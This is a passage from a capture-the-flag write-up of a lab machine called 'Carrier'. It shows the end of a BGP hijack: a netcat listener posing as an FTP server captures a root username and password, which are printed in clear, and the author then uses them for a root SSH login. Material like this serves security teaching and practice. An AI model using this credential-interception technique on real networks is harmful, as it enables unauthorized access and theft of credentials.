 ###### Listening FTP traffic
Once we receive a connection to FTP server press Enter and when root USER popups enter 331 FTP response code for Enter password. We have successfully hijacked BGP  to steal FTP credentials. 

```python

root@r1:~# nc -lvp 21
nc -lvp 21
Listening on [0.0.0.0] (family 0, port 21)
Connection from [10.78.10.2] port 21 [tcp/ftp] accepted (family 2, sport 44650)

USER root
331
PASS BGPtelc0rout1ng
```
Awsome Now, we can revert the network configurations and log in to carrier with the root credentials to root.txt


```python

  carrier ssh root@10.10.10.105
The authenticity of host '10.10.10.105 (10.10.10.105)' can't be established.
ECDSA key fingerprint is SHA256:ocbg7qpaEpjQc5WGCnavYd2bgyXg7S8if8UaXgT1ztE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.105' (ECDSA) to the list of known hosts.
root@10.10.10.105's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri May 29 09:21:33 UTC 2020

  System load:  0.0                Users logged in:       0
  Usage of /:   40.8% of 19.56GB   IP address for ens33:  10.10.10.105
  Memory usage: 30%                IP address for lxdbr0: 10.99.64.1
  Swap usage:   0%                 IP address for lxdbr1: 10.120.15.10
  Processes:    203



Last login: Wed Sep  5 14:32:15 2018
root@carrier:~# ls
root.txt  secretdata.txt
root@carrier:~# 
```
Game over.

###### Beyond Root

Notice secretdata.txt, i digged about this a bit and found out it is related to the LXD containers
for the machine.
